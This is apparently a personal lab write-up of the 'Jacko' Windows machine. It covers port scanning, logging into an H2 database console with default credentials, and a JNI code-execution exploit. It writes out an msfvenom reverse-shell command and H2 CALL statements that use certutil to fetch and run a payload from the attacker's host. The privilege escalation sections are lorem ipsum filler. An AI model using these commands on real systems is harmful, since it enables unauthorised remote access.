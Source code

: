 ```yaml
---
Alias: Jacko
Date: 6/30/2022
Platform: Windows
Difficulty: Intermediate
Tags:
Status: Finished
IP: 192.168.172.66 
---
```


# {{Jacko}}


# Resolution summary
- Text
- Text

## Improved skills
- skill 1
- skill 2

## Used tools
- nmap
- gobuster

---

# Information Gathering
Scanned all TCP ports:
```bash
rustscan -a 192.168.172.66 --ulimit 5000                                                                    (master✱) 
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Please contribute more quotes to our GitHub https://github.com/rustscan/rustscan

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.172.66:80
Open 192.168.172.66:135
Open 192.168.172.66:139
Open 192.168.172.66:445
Open 192.168.172.66:8082
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 22:57 EDT
Initiating Ping Scan at 22:57
Scanning 192.168.172.66 [2 ports]
Completed Ping Scan at 22:57, 0.12s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:57
Completed Parallel DNS resolution of 1 host. at 22:57, 0.01s elapsed
DNS resolution of 1 IPs took 0.02s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 22:57
Scanning 192.168.172.66 [5 ports]
Discovered open port 445/tcp on 192.168.172.66
Discovered open port 135/tcp on 192.168.172.66
Discovered open port 80/tcp on 192.168.172.66
Discovered open port 139/tcp on 192.168.172.66
Discovered open port 8082/tcp on 192.168.172.66
Completed Connect Scan at 22:57, 0.08s elapsed (5 total ports)
Nmap scan report for 192.168.172.66
Host is up, received syn-ack (0.086s latency).
Scanned at 2022-06-22 22:57:46 EDT for 0s

PORT     STATE SERVICE         REASON
80/tcp   open  http            syn-ack
135/tcp  open  msrpc           syn-ack
139/tcp  open  netbios-ssn     syn-ack
445/tcp  open  microsoft-ds    syn-ack
8082/tcp open  blackice-alerts syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds

sudo nmap -sC -sV 192.168.143.66 -p 80,135,139,445,8082                                                                        (master✱) 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-23 14:10 EDT
Nmap scan report for 192.168.143.66
Host is up (0.083s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: H2 Database Engine (redirect)
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-06-23T18:10:49
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.99 seconds
```

Enumerated open TCP ports:
```bash

```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 8082 - H2 database http console

#### - Navigated to "http://192.168.195.66:8082" and found the following:

![](Pasted%20image%2020221014085548.png)

#### -Googled "H2 database http console default credentials" and found the following showing username "sa" and password is blank:
![](Pasted%20image%2020221014085635.png)
![](../Images/Pasted%20image%2020220628031841.png)

#### -Logged into the following H2 database with username "sa" and password left as blank and found the following web page:

![](Pasted%20image%2020221014211701.png)

![](Pasted%20image%2020221014211810.png)


---

# Exploitation
## H2 Database 1.4.199 - JNI Code Execution


#### -Googled "H2 database http console exploit" and found the following exploit via the exploit-db webpage:

![](Pasted%20image%2020221014211903.png)

![](Pasted%20image%2020221014211954.png)

![](Pasted%20image%2020221014212038.png)

#### - Copied and pasted everything from the line below "-- Write native library" from the exploit code into the H2A database

#### - Copied and pasted everything from the line below "-- Load native library" from the exploit code into the H2A database

#### - Copied and pasted everything from the line below "-- Evaluate script" from the exploit code into the H2A database

#### - Found we had code execution with command "whoami"

![](Pasted%20image%2020221014212352.png)

#### - Found  target machine was running on x64 architecture:

![](Pasted%20image%2020221014212446.png)

#### - Typed "msfvenom -p windows/x64/shell_reverse_tcp -f exe -o shell.exe LHOST=[Kali IP] LPORT=8082" on my kali machine to setup a reverse shell payload

#### - Setup a ncat listener on my kali machine listening on port 8082

#### - Typed "CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://[Kali IP]/shell.exe C:/Windows/Temp/shell.exe").getInputStream()).useDelimiter("\\Z").next()');" on the H2 console in order to download the payload to the target machine

#H2DatabaseConsoleCommandExecutionPayload 


#### - Typed "CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:/Windows/Temp/shell.exe").getInputStream()).useDelimiter("\\Z").next()');" and clicked run and received a reverse shell:

![](Pasted%20image%2020221015164556.png)

---

# Privilege Escalation
## Local Enumeration
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

## Privilege Escalation vector
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Quisque sit amet tortor scelerisque, fringilla sapien sit amet, rhoncus lorem. Nullam imperdiet nisi ut tortor eleifend tincidunt. Mauris in aliquam orci. Nam congue sollicitudin ex, sit amet placerat ipsum congue quis. Maecenas et ligula et libero congue sollicitudin non eget neque. Phasellus bibendum ornare magna. Donec a gravida lacus.

---

